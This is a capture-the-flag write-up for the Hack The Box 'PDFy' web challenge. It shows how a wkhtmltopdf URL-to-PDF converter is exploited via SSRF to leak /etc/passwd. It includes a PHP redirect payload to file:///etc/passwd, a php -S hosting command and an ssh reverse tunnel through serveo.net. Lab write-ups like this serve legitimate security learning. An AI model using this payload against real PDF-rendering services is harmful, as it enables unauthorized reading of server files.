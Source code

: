 ```yaml
---
title: PDFy - Hack The Box
date: 2024-10-23
---
```


# PDFy

![PDFy - thumbnail](/ctf/hack-the-box/challenges/web/pdfy/pdfy-thumbnail.png)

## Box description

Welcome to PDFy, the exciting challenge where you turn your favorite web pages into portable PDF documents! It's your
chance to capture, share, and preserve the best of the internet with precision and creativity. Join us and transform the
way we save and cherish web content! NOTE: Leak `/etc/passwd` to get the flag!

## Challenge Description

PDFy is a web application that converts a given URL into a PDF document. The challenge is to leverage this functionality
to exploit the system and retrieve the contents of the `/etc/passwd` file.

Here is an example of a PDF generated by the application when using the URL `https://google.com`:

![PDFy - pdf example](/ctf/hack-the-box/challenges/web/pdfy/pdfy-pdf-example.png)

When an invalid URL is provided, the application returns an error message:

```
There was an error: Error generating PDF: Command '['wkhtmltopdf', '--margin-top', '0', '--margin-right', '0', '--margin-bottom', '0', '--margin-left', '0', 'https://randomrandom', 'application/static/pdfs/319c7764c7ff4a3cb02c5eaa2c9c.pdf']' returned non-zero exit status 1.
```

From this error message, we can infer that the application uses `wkhtmltopdf`, a command-line tool for rendering web
pages into PDFs.

## Vulnerability Analysis

`wkhtmltopdf` is known to be vulnerable to **Server-Side Request Forgery (SSRF)** attacks. SSRF vulnerabilities allow
attackers to make HTTP requests from the server itself, potentially accessing internal resources that are otherwise
inaccessible from the outside.

::: danger
The SSRF vulnerability in `wkhtmltopdf` could lead to severe consequences, including data leakage and unauthorized
access to internal server files.
:::

## Exploitation - SSRF

To exploit the SSRF vulnerability in `wkhtmltopdf`, we need to create a web page that tricks the server into loading and
leaking the `/etc/passwd` file. This is done by embedding a PHP script that redirects to the local file system of the
server.

### Step 1: Create the PHP Script

We first create the following PHP script that redirects the page to `file:///etc/passwd`, forcing the server to load the
file:

```php
<!DOCTYPE html>
<html>
<body>
    <h1>Hello world</h1>
<?php
header('location:file:///etc/passwd');
?>
</body>
</html>
```

### Step 2: Host the PHP Script

Next, we host the PHP script on our local machine using the PHP development server:

```bash
php -S 0.0.0.0:8000
```

This allows our machine to serve the PHP script on port 8000.

::: warning
Ensure that your firewall settings allow external connections to the server to make it accessible from the internet.
:::

### Step 3: Expose the Local Server to the Internet

To make the local PHP server accessible from the internet, we use `serveo.net` to create a tunnel that exposes our local
server:

```bash
ssh -R 80:localhost:8000 serveo.net
```

Now, the PHP script can be accessed via a public URL provided by Serveo.

### Step 4: Trigger the SSRF Attack

We submit the Serveo URL (e.g., `http://[serveo-url]/[php-script]`) to the PDFy application’s URL field. When the
application attempts to convert the URL to a PDF, the SSRF vulnerability is triggered, causing the server to follow the
`file:///etc/passwd` redirect.

### Step 5: Capture the Flag

Once the application processes the URL, it retrieves the `/etc/passwd` file. The flag is included in the server's
response, as seen in the PDF output:

![Flag - PDFy](/ctf/hack-the-box/challenges/web/pdfy/pdfy-flag-pdf.png)

With this, we successfully extract the `/etc/passwd` file and capture the flag.

![PDFy - pwned](/ctf/hack-the-box/challenges/web/pdfy/pdfy-pwned.png)

## References

- [Exploit - notes](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/)
- [Serveo.net](https://serveo.net/)
